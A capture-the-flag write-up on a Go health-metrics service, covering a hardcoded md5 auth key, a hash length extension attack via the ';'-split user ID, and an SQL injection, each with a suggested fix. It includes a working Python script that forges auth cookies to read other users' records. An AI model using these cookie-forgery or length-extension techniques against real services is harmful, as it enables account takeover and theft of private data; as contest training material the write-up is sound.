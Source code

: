 # Healthmonitor (hm)


There was a service called hm which was written in golang (go).
The service contained a page to register and login. After login you could add your health metrics (weight, blood pressure, pulse, walking distance and a comment) and listed these. We looked at the database and saw some users have a flag in the comment.
Our goal was to read comments from other users.
If we registered and logged in we got some cookies: session, auth (which was obviously a md5 hash) and an id (which was a base64 decoded string "u_XXX", the user_id)

## fixed key

First we read the main.go which showed a constant key. And since every team had the same image every team had the same key. This constant key was used for the auth cookie generation:

e.g. the auth-verifier
~~~
func authVerified(auth string, uId string) (bool, error) {
	id := decodeBase64(uId)	//decode uID from cookie -> u_XXX
    res := md5hash(Key, id) //calculate md5hash of the key and the uID
	if res == auth {		//if its equal with the auth value from the cookie return true else false
		return true, nil
	} else {
		return false, errors.New(Unauthorized)
	}
}
~~~

We could see that you only had to know the uID and the key to calculate the auth-cookie. Since every key on every image was the same, you could easily exploit it.
Things to do:

1. Register a user to get the highest uID
2. Change the uID, calculate the md5hash for the new auth-cookie and send a request to read your health metrics

The best solution was that you decreased the uID and submit your flags until no valid flags were left.

Quick & Dirty exploit
(python)
~~~
import requests, re, base64, hashlib, random, string, sys

key = "f11ecd5521ddf2614e17e4fb074a86da"

#register new user
randomuser = ''.join([random.choice(string.ascii_letters + string.digits) for n in xrange(16)])
url = "http://" + str(sys.argv[1]) + ":8000"
body = {'Login': randomuser, 'Pass':randomuser}
r = requests.post(url + "/newuser", data=body)
uid = int(re.findall(r'assigned: u_([0-9]+)', r.text)[0])
uidorig = uid
bufferr = "";

while(uid > uidorig - 100): #here you could improve the exploit
	uid = uid - 1
	#calc auth
	md5sum = hashlib.md5(key + 'u_' + str(uid)).hexdigest()
	#uID 
	uidBase64 = base64.b64encode('u_' + str(uid))
	cookies = dict(auth=md5sum, id=uidBase64)
	#get metrics
	r = requests.get(url + "/healthmetrics", cookies=cookies)
	print r.text #our submitter greps the flags
~~~

To fix the flaw you could just change the key and recompiled it. (# go build)

## hash length extension

This was the most obvious flaw and we did not look or think further. But there was more and probably many team were just as lazy as we were and just changed the key and were still vulnerable to a hash length extension attack. Since auth was calculated via `md5(key, id)`, and the id was user provided we could provide arbitrary data. 

If you're doing a lot of CTFs you are probably familiar with hash extension if not the best thing to start is by reading [this blog post](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) and playing around with [hash_extender](https://github.com/iagox86/hash_extender) 

If you are lazy and don't want to read up here is the short version: Merkel-Damgard Hashes like MD5 and SHA1/SHA2 are vulnerable to hash length extension attacks. This attacks allows you to recalculate hashes that are build up like the one above `hash(secret, user-provided-data)`. You could than just append more data and calculate a corresponding hash without knowledge of the secret. 

To make this work there still had to be some features in the code. To attack the flaw you need to change the base64 encoded user id and the auth token. And you could only append data to the user id not change it. But these features are provided. To check for the auth cookie is done in getUserId:

~~~
auth := authCookie.Value
id := idCookie.Value
verified, err := authVerified(auth, id)
~~~
and after that verification the id is extracted from the id cookie with the extractUid function. 
~~~
func extractUid(idStr string) string {
	id := decodeBase64(idStr)
	f := strings.FieldsFunc(id, split)
	return f[len(f)-1]
}
~~~
interesting so what does split split?
~~~
func split(c rune) bool {
	return c == ';' || c == ' ' 
}
~~~
so we can just append the new user id after a ; and can trigger a valid authentication for that user. The only reaming problem is we do not know the length of the secret which we need to calculate our new auth token. But hash extender can generate multiple tokens at once with varying secret length.

So here is a pseudo code writeup after a POC with burp a was to lazy to actually automate it with python... 

1. Create new user
2. bruteforce secret length for id - 1
3. check the next users for flags with the now known secret length

To fix this properly you should apply a HMAC instead of `md5(secret+data)` but in this context `md5(secret+data+secret)` would have been enough. 


## SQL injection
But there was still more. Most database queries used prepared statements except the one that checked if a user name already exists. 

To fix this flaw simple make the query to a prepared statement just like the rest.

## Summary

We dind't expect that may flaws in one service and only exploited and fixed one. But still this service was our cash cow and we were able to score good points, but the next time we will take a second look and fix and exploit more vulnerabilities. 
